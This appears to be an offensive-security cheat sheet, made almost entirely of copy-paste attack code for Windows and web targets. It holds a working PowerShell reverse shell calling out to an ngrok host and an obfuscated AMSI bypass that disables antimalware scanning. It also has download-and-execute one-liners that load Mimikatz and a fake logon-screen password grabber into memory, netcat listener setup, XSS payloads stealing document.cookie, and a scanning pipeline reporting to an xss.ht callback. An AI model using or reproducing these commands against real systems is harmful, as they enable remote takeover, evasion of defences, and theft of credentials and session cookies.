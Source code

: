 # windows Rerverse shell
```php
$cthulhu = New-Object System.Net.Sockets.TCPClient('0.tcp.ngrok.io',19021 );$tntcl = $cthulhu.GetStream();[byte[]]$cult = 0..65535|% {0};while(($i = $tntcl.Read($cult, 0, $cult.Length)) -ne 0) {;$d = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($cult,0, $i);$ex = (iex $d 2>&1 | Out-String );$ex2 = $ex + 'CF ' + (pwd).Path + '> '; $shog =([text.encoding]::ASCII).GetBytes($ex2);$tntcl.write($shog,0,$shog.Length); $tntcl.Flush()};

```
------------------------------------------------------

# AMSI BYPASS

```php
$forsec = 'System.Management.Automation.A';$yfd = 'si';$ted = 'Ut' + 'ils'
$astute = [Ref].Assembly.GEtTYpe(('{0}m{1}{2}' -f $forsec,$yfd,$ted))
$onlysecthings =$astute.Getfield(('am{0}InitFailed' -f $yfd),'NonPu' + 'blic' + ',St' + 'atic')
$onlysecthings.SetVALuE($null,$true)
```
------------------------------------------------------------

# invoke pattern to download into memory 
```php
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpPack.ps1')
```
# invoke important ps1 github

**MIMIKATZ**

```php
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Invoke-Mimikatz.ps1')
```
**LOGIN SCREEN PASSWORD GRABBER**

```php
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-FakeLogonScreen.ps1')
```

-----------------------------------------------------------------------------------------------

    ngrok TCP PORT for rev listening 

    ngrok http for http service forwarding 


---------------------------------------------------------------------------------------------------

    ngrok tcp 1234
    nc -nvlp 1234

------------------------------------------------------------------------------------------------------

    tmate 

------------------------------------------------------------------------------------------------

# XSS Paylaods

```html
t3_u9po1l%2520onmouseover=alert(document.domain)%2520y=/t1_i5sxroa

javascript:alert(document.cookie)

"><img src=x onerror=prompt(document.cookie);> 

"><img src=x onerror=alert(1)>

<h1>Testing TG</h1>

flkdflkjslkf"><img%20src=x%20onmouseover=confirm(1)>
```

#alert in window 

    Add-Type -AssemblyName PresentationCore,PresentationFramework

`for alert`

    [System.Windows.MessageBox]::Show($Messageboxbody,$MessageboxTitle,$ButtonType,$messageicon)

# 1linerXSS

    gospider -S subdomains.txt -c 10 -d 5 --blacklist ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt)" --other-source | grep -e "code-200" | awk '{print $5}'| grep "=" | qsreplace -a | dalfox -b astutehacker.xss.ht pipe -o result3.txt
